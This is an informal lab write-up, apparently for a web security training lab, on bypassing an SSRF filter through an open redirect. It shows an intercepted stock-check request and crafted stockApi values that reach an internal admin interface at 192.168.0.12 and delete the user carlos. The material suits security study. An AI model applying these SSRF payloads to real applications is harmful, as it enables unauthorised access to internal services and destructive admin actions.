 # SSRF with filter bypass via open redirection

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user carlos.

The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first.

### solution

- start the lab and remember the objective is to open `/admin` and delete the user carlos
- if u try going to `/admin` endpoint, you will n't get the result as u can't access it directly.
- so let's go to products and click check stock as challange describtion said
- intercept this request
```
POST /product/stock HTTP/2
Host: 0aba00cf04fc37d787d2ecab009800c8.web-security-academy.net
Cookie: session=Jkj8BtT8GyJXGIIkD92AI4jVwg1i5kVt; session=xePg3AZmakzW3clhYyuezrf201WpqbH6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aba00cf04fc37d787d2ecab009800c8.web-security-academy.net/product?productId=5
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: https://0aba00cf04fc37d787d2ecab009800c8.web-security-academy.net
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D5%26storeId%3D1
```
- we see that in the stockAPI parameter, we can't make the server issue the request directly to a different host.
- but when we intercept `next product` request we find that there's a path parameter
- so we can make use of it in stockAPI parameter ny making it = `/product/nextProduct?path=http://192.168.0.12:8080/admin`
- It redirects us to admin interface, so let's delete carlos by making stockAPI=`/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos`
- congratzzzzzzzzzzzz